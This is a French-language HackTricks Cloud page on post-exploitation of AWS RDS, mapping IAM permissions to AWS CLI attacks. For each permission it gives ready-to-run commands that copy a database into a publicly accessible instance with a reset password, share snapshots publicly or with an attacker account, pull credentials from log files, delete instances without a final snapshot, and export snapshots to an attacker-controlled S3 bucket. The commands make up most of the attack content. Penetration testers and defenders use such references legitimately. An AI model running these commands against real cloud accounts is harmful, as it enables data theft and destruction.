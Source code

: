 # AWS - RDS Post Exploitation

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## RDS

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Si l'attaquant dispose de suffisamment de permissions, il pourrait rendre une **DB accessible publiquement** en créant un instantané de la DB, puis une DB accessible publiquement à partir de l'instantané.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Un attaquant avec ces permissions pourrait **créer un instantané d'une base de données (DB)** et le rendre **publiquement** **accessible**. Ensuite, il pourrait simplement créer dans son propre compte une base de données à partir de cet instantané.

Si l'attaquant **ne dispose pas de la permission `rds:CreateDBSnapshot`**, il pourrait tout de même rendre **publics** d'autres instantanés créés.

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```

### `rds:DownloadDBLogFilePortion`

Un attaquant avec la permission `rds:DownloadDBLogFilePortion` peut **télécharger des portions des fichiers journaux d'une instance RDS**. Si des données sensibles ou des identifiants d'accès sont accidentellement enregistrés, l'attaquant pourrait potentiellement utiliser ces informations pour élever ses privilèges ou effectuer des actions non autorisées.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Impact potentiel** : Accès à des informations sensibles ou actions non autorisées utilisant des identifiants divulgués.

### `rds:DeleteDBInstance`

Un attaquant avec ces permissions peut **effectuer un DoS sur des instances RDS existantes**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Impact potentiel** : Suppression des instances RDS existantes et perte potentielle de données.

### `rds:StartExportTask`

{% hint style="info" %}
TODO : Tester
{% endhint %}

Un attaquant avec cette permission peut **exporter une capture instantanée d'instance RDS vers un seau S3**. Si l'attaquant contrôle le seau S3 de destination, il peut potentiellement accéder aux données sensibles contenues dans la capture exportée.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}
